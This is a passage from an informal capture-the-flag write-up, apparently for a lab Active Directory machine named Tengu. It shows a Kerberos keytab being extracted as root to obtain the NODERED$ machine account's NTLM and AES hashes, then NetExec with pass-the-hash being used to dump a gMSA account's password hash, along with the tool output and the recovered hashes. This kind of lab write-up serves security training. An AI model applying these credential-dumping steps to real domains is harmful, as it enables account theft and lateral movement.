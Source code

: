 we have redgmsapassword for GMSA01

im gonna use that while we have file

[KeyTabExtract](https://github.com/sosdave/KeyTabExtract)

    root@nodered:/etc# ls -la *.keytab
    -rw------- 1 root root 650 Mär 26  2024 krb5.keytab

and boom

    ➜  KeyTabExtract git:(master) ✗ python3 keytabextract.py krb5.keytab 
    [*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
    [*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
    [*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
    [+] Keytab File successfully imported.
            REALM : TENGU.VL
            SERVICE PRINCIPAL : NODERED$/
            NTLM HASH : d4210ee2db0c03aa3611c9ef8a4dbf49
            AES-256 HASH : 4ce11c580289227f38f8cc0225456224941d525d1e525c353ea1e1ec83138096
            AES-128 HASH : 3e04b61b939f61018d2c27d4dc0b385f

new creds

NODERED$ : d4210ee2db0c03aa3611c9ef8a4dbf49

We can use netexew —gmsa modules or flag for dump new creds


    ➜  Tengu proxychains -q nxc ldap DC.tengu.vl -u "NODERED$" -H "d4210ee2db0c03aa3611c9ef8a4dbf49" --gmsa
    SMB         224.0.0.1       445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
    LDAPS       224.0.0.1       636    DC               [+] tengu.vl\NODERED$:d4210ee2db0c03aa3611c9ef8a4dbf49 
    LDAPS       224.0.0.1       636    DC               [*] Getting GMSA Passwords
    LDAPS       224.0.0.1       636    DC               Account: gMSA01$              NTLM: 9fac1a6c91b365f30fa517fac842155a
    LDAPS       224.0.0.1       636    DC               Account: gMSA02$              NTLM:

and boom

now time to look what our user can do gMSA01$

### AllowedToDelegate

![alt text](<../assets/images/6 (1).png>)
